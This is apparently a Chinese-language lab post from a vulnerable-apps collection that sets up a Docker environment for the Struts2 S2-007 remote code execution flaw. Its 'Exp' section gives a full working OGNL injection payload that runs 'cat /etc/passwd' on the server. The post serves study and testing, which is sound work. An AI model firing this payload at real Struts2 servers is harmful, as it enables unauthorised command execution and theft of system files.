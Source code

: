 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-007)"
date: 2017-06-13 18:43:53 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-007)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-007)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-007)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>
### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-007/s2-007-1.png)

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-007/s2-007-2.png)

### 其它

感谢 [@zerokeeper](https://github.com/zerokeeper) 贡献

